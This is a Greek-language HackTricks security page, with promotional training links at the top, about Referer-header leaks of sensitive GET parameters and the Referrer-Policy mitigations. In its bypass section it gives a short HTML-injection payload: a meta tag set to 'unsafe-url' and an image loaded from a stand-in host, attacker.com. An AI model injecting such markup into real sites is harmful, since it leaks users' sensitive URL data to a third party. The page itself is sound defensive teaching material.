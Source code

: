 {% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Συμμετέχετε** 💬 στην [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε χάκινγκ κόλπα υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}

# Κεφαλίδες αναφοράς και πολιτική

Η κεφαλίδα Αναφοράς (Referrer) χρησιμοποιείται από τους περιηγητές για να υποδείξουν ποια ήταν η προηγούμενη επισκεφθείσα σελίδα.

## Διαρροή ευαίσθητων πληροφοριών

Εάν σε κάποιο σημείο μέσα σε μια ιστοσελίδα βρίσκονται ευαίσθητες πληροφορίες στις παραμέτρους ενός αιτήματος GET, εάν η σελίδα περιέχει συνδέσμους προς εξωτερικές πηγές ή ένας επιτιθέμενος είναι σε θέση να δημιουργήσει/προτείνει (κοινωνική μηχανική) στον χρήστη να επισκεφθεί μια διεύθυνση URL που ελέγχεται από τον επιτιθέμενο, θα μπορούσε να εξαγάγει τις ευαίσθητες πληροφορίες μέσα στο τελευταίο αίτημα GET.

## Αντιμετώπιση

Μπορείτε να κάνετε τον περιηγητή να ακολουθήσει μια **πολιτική αναφοράς (Referrer-policy)** που θα **αποτρέψει** την αποστολή των ευαίσθητων πληροφοριών σε άλλες εφαρμογές ιστού:
```
Referrer-Policy: no-referrer
Referrer-Policy: no-referrer-when-downgrade
Referrer-Policy: origin
Referrer-Policy: origin-when-cross-origin
Referrer-Policy: same-origin
Referrer-Policy: strict-origin
Referrer-Policy: strict-origin-when-cross-origin
Referrer-Policy: unsafe-url
```
## Αντι-Μείωση

Μπορείτε να παρακάμψετε αυτόν τον κανόνα χρησιμοποιώντας ένα ετικέτα μεταδεδομένων HTML (ο επιτιθέμενος πρέπει να εκμεταλλευτεί μια ενσωμάτωση HTML):
```markup
<meta name="referrer" content="unsafe-url">
<img src="https://attacker.com">
```
## Άμυνα

Ποτέ μην τοποθετείτε ευαίσθητα δεδομένα μέσα σε παραμέτρους GET ή διαδρομές στο URL.
